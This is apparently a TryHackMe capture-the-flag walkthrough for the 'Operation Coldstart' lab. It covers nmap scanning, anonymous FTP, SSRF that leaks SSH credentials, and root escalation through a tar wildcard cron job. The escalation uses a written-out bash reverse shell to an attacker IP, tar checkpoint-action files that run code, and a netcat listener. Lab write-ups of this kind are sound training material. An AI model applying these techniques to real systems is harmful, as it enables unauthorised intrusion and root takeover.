


# TryHackMe - Operation Coldstart: Complete Walkthrough

**Room Name:** Operation Coldstart
**Category:** Boot2Root, Web Exploitation, and Privilege Escalation
**Target IP:** 10.48.185.113 (lab ip)

## Step 1: Reconnaissance 

**Nmap Scan:**
```bash
nmap -sC -sV -p- -T4 10.48.185.113
```

**Results:**
- Port 21 (FTP) - vsftpd 3.0.5 (Anonymous login allowed)
- Port 22 (SSH) - OpenSSH 9.6p1
- Port 80 (HTTP) - Gunicorn (URL Preview Service)

## Step 2: FTP Enumeration 

Connect to FTP anonymously:
```bash
ftp 10.48.185.113
```
Username: `anonymous`
Password: `(blank)`

List and download files:
```bash
ftp> ls -la
ftp> cd pub
ftp> ls -la
ftp> get backup.tar.gz
ftp> bye
```

Extract the backup:
```bash
tar -xzvf backup.tar.gz
cd voltlabs-preview/
cat app.py
```

**Source Code Analysis:**
The `app.py` reveals that the web app only allows requests to hostname `kestrel.thm`, which resolves to `127.0.0.1` via `/etc/hosts`. There is an admin endpoint at `/admin/notes`.
```python
ALLOWED_HOSTS = {"kestrel.thm"}
```

## Step 3: Web Application SSRF Exploitation 

The URL preview feature is vulnerable to Server-Side Request Forgery (SSRF). Use it to access internal endpoints:
Access the admin notes:
```bash
curl "http://10.48.185.113/preview?url=http://kestrel.thm/admin/notes"
```

Response reveals SSH credentials:
```
=== INTERNAL ===
SSH access for staging:
  user: webdev
  pass: V0ltLabs#summer
- Mara
```

## Step 4: Initial Access via SSH 

Connect using the obtained credentials:
```bash
ssh webdev@10.48.185.113
```
Password: `V0ltLabs#summer`

Retrieve the user flag:
```bash
webdev@coldstart:~$ find / -name "user.txt" 2>/dev/null
/home/webdev/user.txt
webdev@coldstart:~$ cat /home/webdev/user.txt

```

## Step 5: Privilege Escalation to Root 

Check for cron jobs:
```bash
webdev@coldstart:~$ cat /etc/cron.d/voltlabs-backup
```
Output:
```bash
* * * * * root cd /opt/backups && tar czf /var/backups/uploads.tgz *
```
This cron job runs every minute as root. It changes to `/opt/backups` and creates a tar archive of all files in that directory.

**Directory Permissions:**
```bash
webdev@coldstart:~$ ls -la /opt/backups
drwxrwx--- 2 webdev webdev 4096 May  9 23:14 .
```
The directory is writable by the `webdev` user, making it vulnerable to a tar wildcard privilege escalation attack.

**Exploitation Method:**
The tar wildcard exploit involves creating files that tar interprets as command-line options. Using the checkpoint feature to execute arbitrary code.

Create a reverse shell script:
```bash
cat > /opt/backups/rs.sh << 'EOF'
#!/bin/bash
bash -i >& /dev/tcp/10.48.127.124/4444 0>&1
EOF
chmod +x /opt/backups/rs.sh
```

Create the checkpoint files using Python to bypass shell interpretation issues:
```bash
cd /opt/backups
python3 << 'EOF'
import os
os.close(os.open('--checkpoint=1', os.O_CREAT | os.O_WRONLY, 0o644))
os.close(os.open('--checkpoint-action=exec=rs.sh', os.O_CREAT | os.O_WRONLY, 0o644))
EOF
echo x > trigger.txt
```

Set Up Listener on attacker machine:
```bash
nc -lvnp 4444
```

Wait for Cron Execution:
The cron job runs every minute. Within 1min, tar processes the checkpoint files and executes `rs.sh` as root, sending a reverse shell to the listener.

**Root Access** - When the connection appears:
```bash
connect to [10.48.127.124] from (UNKNOWN) [10.48.185.113] 44234
root@coldstart:/opt/backups#
```

Read the root flag:
```bash
root@coldstart:/opt/backups# cat /root/flag.txt

```

## Final Flags
- `user.txt` - 
- `flag.txt` - 

**Tools Used:** Nmap, FTP client, Curl, SSH, Netcat, Python, and Tar
